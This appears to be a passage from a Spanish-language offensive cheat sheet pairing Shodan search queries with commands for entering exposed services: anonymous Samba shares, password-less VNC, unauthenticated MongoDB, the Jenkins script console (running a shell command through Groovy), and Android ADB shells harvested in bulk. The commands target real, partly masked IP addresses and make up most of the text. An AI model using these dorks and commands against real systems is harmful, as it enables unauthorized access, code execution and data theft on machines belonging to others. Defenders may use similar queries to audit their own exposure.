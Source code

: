 ```sh
"Authentication: disabled" port:445 product:"Samba" 
```
```sh
smbclient -L //200.x.x.29/ -N  
smbclient //200.x.x.29/info
```

### Access authentication disabled VNC
Esto significa que el servidor VNC está configurado para permitir conexiones sin requerir autenticación.

```sh
"authentication disabled" port:5900,5901
```
```sh
vncviewer -passwd none 91.x.x.238
```

### Access authentication disabled MongoDB
Esto significa que el servidor NoSQL MongoDB está configurado para permitir conexiones sin requerir autenticación.

```sh
"MongoDB Server Information" port:27017 -authentication
"Set-Cookie: mongo-express=" "200 OK"
```
```sh
mongo --host 139.x.x.5
```

### Access Jenkins
Se puede visualizar componentes del servicio Jenkins, ejecutar scripts, etc.

```sh
http.component:"jenkins"
title:"Dashboard [Jenkins]"
html:"Dashboard Jenkins"
```
```sh
add /script 
print "uname -a".execute().text
```

### Access devices ADB
Es una aplicación de terminal que le permite conectarse al servicio ADB shell de otros dispositivos Android a través de la red.

```sh
shodan search :Android Debug Bridge port:5555 "Name:" --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt 
 ```
```sh
python3 auto-ADB.py   
```
